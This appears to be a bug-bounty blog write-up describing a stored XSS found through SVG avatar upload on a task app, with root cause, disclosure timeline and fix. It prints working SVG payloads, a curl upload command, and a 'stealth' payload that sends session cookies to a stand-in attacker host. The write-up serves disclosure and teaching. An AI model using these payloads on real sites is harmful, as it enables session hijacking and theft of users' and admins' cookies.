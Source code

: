 ```yaml
---
title: "TaskMaster – How an Avatar Became a Cookie Monster"
description: "Exploring how a harmless SVG avatar turned into a full-blown stored XSS on TaskMaster"
date: '2023-10-05'
categories: ["Bug Bounty", "Web Security", "XSS Chronicles"]
tags: ["Stored XSS", "SVG", "TaskMaster", "YesWeHack"]
header:
  image: "/images/taskmaster-xss-banner.jpg"
  caption: "Even an avatar can be dangerous if you let SVGs speak JavaScript"
---
```


## Prologue — Of Avatars and Curiosity

**It started with a profile page.**

Late one night in October, I was sipping on reheated coffee and casually poking around the "TaskMaster" app — a tidy little task management platform listed on YesWeHack. On the surface, it was clean, minimal, maybe even a bit charming.

But I wasn't there for charm. I was there for cracks.

And then, there it was — the avatar upload.

**"What if...?"**

A question every hacker knows too well. And so I clicked — and down the rabbit hole we went.

---

## Chapter 1 — First Contact with the Upload Beast

The upload feature accepted image files: JPG, PNG, GIF… but no visible restrictions on file type.

So I tried my favorite "edge-case image": an SVG file.

> Why SVG? Because it's not just an image — it's a vector format that **executes JavaScript** if not handled properly.

I crafted the simplest SVG payload imaginable:

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/>
```

Saved it as `exploit.svg`.

Would it upload? Would it break?

---

## Chapter 2 — Uploading the Trojan Horse

**The curl command whispered into the void.**

```bash
curl -X POST https://taskmasterapp.com/upload   -F "avatar=@exploit.svg"   -H "Cookie: session=123"
```

The response was **200 OK**. My SVG was in.

> No sanitization warnings. No file type rejection. Just a quiet acceptance.

I checked my profile page.

Nothing yet.

But then I remembered—most sites lazy-load or render avatars differently for the viewer vs. an admin.

So I waited.

Then, I switched to a second account and viewed the profile.

Nothing again.

So I asked the ultimate question:

**What happens when the admin sees it?**

---

## Chapter 3 — Triggering the XSS

I waited until morning. Refreshed the profile.

Then, from a second session — with admin rights — I visited the same profile page where I had uploaded the SVG.

**Boom. Alert popped.**

```javascript
alert(document.cookie)
```

A beautifully chaotic popup.

And with it, access to session cookies.

No frills. No filters. Just raw JavaScript execution embedded inside a **stored** avatar upload.

---

## Chapter 4 — Thinking Like an Attacker

Let’s rewind to what I was thinking at each stage.

**1. SVG upload? Red flag.**

SVGs aren't images in the traditional sense. They are XML documents, often capable of executing scripts.

**2. No content filtering? Jackpot.**

The moment I saw the site accepted the file without stripping the `onload` attribute, I knew we were dealing with a real issue.

**3. Stored XSS on profile pages? High impact.**

Any admin or privileged user viewing the profile would immediately get hit. No click required.

I imagined a larger attack:

- Upload multiple poisoned avatars across many users.
- Wait for moderators to view their profiles.
- Use `fetch()` or image beacons to exfiltrate data.

The payload possibilities were endless.

---

## Chapter 5 — Proof of Concept (PoC)

### PoC 1 — SVG Payload

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/>
```

Uploaded as a profile avatar.

### PoC 2 — Exploit Trigger

When a privileged user (admin/mod) visits the profile:

- JavaScript executes.
- `document.cookie` exposed.
- Session hijacking possible.

**Alternate Payload for Stealth:**

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="new Image().src='https://attacker.tld/log?c='+document.cookie"/>
```

---

## Chapter 6 — Root Cause

- **No SVG Sanitization**: The upload logic didn’t filter XML or disallow SVG tags with event attributes.
- **Stored XSS**: Once uploaded, the SVG persisted and was rendered inline.
- **JavaScript Execution**: `onload` inside the `<svg>` tag triggered code execution.

**Lack of CSP (Content Security Policy)** made this even easier — no restriction on inline scripts.

---

## Chapter 7 — The Report

I wrote up the full findings, attached the PoC, outlined the risk.

Submitted the report to YesWeHack.

### Report Timeline

- **Report Date**: October 5, 2023
- **Acknowledgment**: < 12 hours
- **Fix Deployed**: Within 3 days
  - SVG uploads disabled
  - Content Security Policy (CSP) headers added

### Bounty: **$50**

A modest reward — but the lesson was worth much more.

---

## Epilogue — Reflections from the Vector Wilds

This wasn’t the biggest bounty.

It wasn’t a critical RCE.

But it was **real**.

And it reminded me:

- Images aren’t always safe.
- SVGs are vectors — **literally** and **attack-wise**.
- Stored XSS is timeless.
- Upload forms are always worth investigating.

The best bugs are often **quiet** — hiding in plain sight, waiting for someone to ask:

> **"What if...?"**

---

## TL;DR Summary

- **Vuln**: Stored XSS via SVG upload in user avatars
- **Platform**: YesWeHack — TaskMaster App
- **Payload**: `<svg onload="alert(document.cookie)">`
- **Impact**: Session hijack for viewers (admin/moderator)
- **Fix**: Disabled SVG uploads, added CSP
- **Bounty**: $50
- **Lesson**: Never trust an image by its extension

---

*This writeup is dedicated to the sleepy hackers who still believe every file upload hides a story.*
